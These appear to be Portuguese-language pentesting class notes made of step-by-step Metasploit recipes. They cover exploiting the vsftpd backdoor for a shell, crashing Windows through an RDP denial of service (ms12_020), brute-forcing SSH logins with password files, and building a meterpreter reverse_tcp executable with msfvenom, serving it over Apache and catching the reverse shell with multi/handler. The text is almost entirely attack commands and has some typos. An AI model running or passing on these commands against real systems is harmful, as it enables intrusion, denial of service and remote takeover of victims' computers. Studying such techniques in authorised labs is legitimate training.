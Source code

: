 resumos das aulas anteriores 

falhas ftp:

Linux kali : msfconsole init

procurar o backdor: search vsftpd


info: info exploit/unix/ftp/vsfftpd_backdoor

usar: use exploit/unix/ftp/vsfftpd_backdoor

alterar ip: set rhots <IP>


mostrar os payloads show payloads

atribuir o payload: set payload payload/cmd/unix/Interact

show options

executar: exploit 


depois navegar ate o arquivo desejado!!!


tela azul windows

Kali
msconsole invadir o pc Windows

search rdp

use auxiliary/dos/Windows/rdp/ms12_020_maxchannelids 

set rhosts <IP>

run


ssh falhas

msconsole

search ssh_login

auxiliary/scanner/ssh/ssh_login

criar arquivos user / PASSWORD

set rhosts 192.168.1.21
set PASS_FILE caminho do arquivo
set user_file caminho do arquivo
exploit

backdor executável


msfvenom -p Windows/meterpreter/reverse_tcp -a x86 platform widows -f exe LHOST = <IP> <PORT> -o nome do executável

service apache2 start

cp nome do arquivo /var/www/html
cd / var/www/html
ls

maquina do  

ir no local no Windows  e baixar pelo ip


msfconsole

use multi/handler

set payload Windows/meterpreter/reverse_tcp

set LHOST <ip>
set LPORT <PORT>
run
 

